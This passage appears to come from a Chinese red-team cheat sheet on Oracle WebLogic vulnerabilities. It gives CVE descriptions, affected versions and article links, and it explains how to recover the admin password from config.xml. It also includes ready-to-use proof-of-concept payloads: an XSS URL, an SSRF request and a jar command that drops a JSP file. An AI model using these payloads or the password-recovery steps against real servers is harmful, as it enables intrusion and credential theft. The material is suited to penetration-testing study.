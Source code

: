 config.xml 是 base_domain 的全局配置文件, 找到其中的 <node-manager-password-encrypted> 的值，即为加密后的管理员密码

![](../../../../assets/img/Security/RedTeam/Web安全/BS-Exploits/5.png)

通过解密工具可以获得后台密码

**CVE-2009-1975 xss 漏洞**
- 描述

    BEA Product Suite 10.3 中 WebLogic Server 组件中的未指定漏洞使远程攻击者可以影响与 WLS 控制台程序包相关的机密性，完整性和可用性。

- 影响版本
    - weblogic_server 10.3

- POC | Payload | exp
    - `http://www.example.com:7011/consolehelp/console-help.portal?_nfpb=true&_pageLabel=ConsoleHelpSearchPage&searchQuery="><script>alert('DSECRG')</script>`
    - [Oracle WebLogic Server 10.3 - 'console-help.portal' Cross-Site Scripting](https://www.exploit-db.com/exploits/33079)

**CVE-2014-4210 SSRF**
- 相关文章
    - [weblogic SSRF漏洞(CVE-2014-4210)检测利用](https://blog.csdn.net/qq_29647709/article/details/84937101)

- 影响版本
    - weblogic_server 10.0.2.0
    - weblogic_server 10.3.6.0

- POC | Payload | exp
    - `http://127.0.0.1:7001/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://127.0.0.1:7000`

**CVE-2017-3248**
- 相关文章
    - [WebLogic反序列化漏洞重现江湖，CVE-2017-3248成功绕过之前的官方修复](https://paper.seebug.org/333/)

**CVE-2017-3506**
- POC | Payload | exp
    - [ianxtianxt/CVE-2017-3506](https://github.com/ianxtianxt/CVE-2017-3506)
        ```
        java -jar WebLogic-XMLDecoder.jar -s xxx.xxx.xxx.xxx:7001 /wls-wsat/CoordinatorPortType11 test.jsp
        ```

**CVE-2017-10271 XMLDecoder 反序列化漏洞**
- 描述

    Weblogic 的 WLS Security 组件对外提供 webservice 服务，其中使用了 XMLDecoder 来解析用户传入的 XML 数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。

- 影响版本
    - weblogic_server 10.3.6.0.0
    - weblogic_server 12.1.3.0.0
    - weblogic_server 12.2.1.1.0 ~ 12.2.1.2.0

- 相关文章
    - [WebLogic XMLDecoder反序列化漏洞复现](https://mochazz.github.io/2017/12/25/weblogic_xmldecode/)
    - [blog-hugo/content/blog/Weblogic-0day.md](https://github.com/kylingit/blog-hugo/blob/master/content/blog/Weblogic-0day.md)
